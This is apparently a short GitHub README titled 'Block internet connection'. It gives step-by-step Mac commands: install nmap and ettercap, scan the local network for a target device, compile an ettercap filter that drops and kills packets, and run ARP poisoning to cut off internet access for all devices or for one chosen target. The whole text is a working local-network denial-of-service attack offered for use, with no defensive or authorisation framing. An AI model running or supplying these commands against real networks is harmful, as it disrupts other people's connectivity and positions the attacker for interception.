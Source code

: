 # Block internet connection

## On Mac

- Install homebrew: [https://brew.sh/](https://brew.sh/)
- Install packages:
    - `brew install nmap ettercap`
- Find the ***router IP address*** using: `netstat -nr|grep default`The IP address will be next to the first **default** word
- Find the IP address of the targeted device: `sudo nmap -sP <router-ip-address>/24` For example `sudo nmap -sP 192.168.1.1/24`
- Create an “etter” file with these commands
    - `echo "drop();" >> etter`
    - `echo "kill();" >> etter`
- Run this command to compile to etter.ef file: `etterfilter etter -o etter.ef`
- Now run this to start blocking network:
    - Block the network of all devices using the router (including yours): `sudo ettercap -T -q -p -F etter.ef -M arp:remote /// ///`
    - Block the targeted device: `sudo ettercap -T -q -p -F etter.ef -M arp:remote /<router-ip-address>// /<target-ip-address>//` For example: `sudo ettercap -T -q -p -F etter.ef -M arp:remote /192.168.1.1// /192.168.1.91//`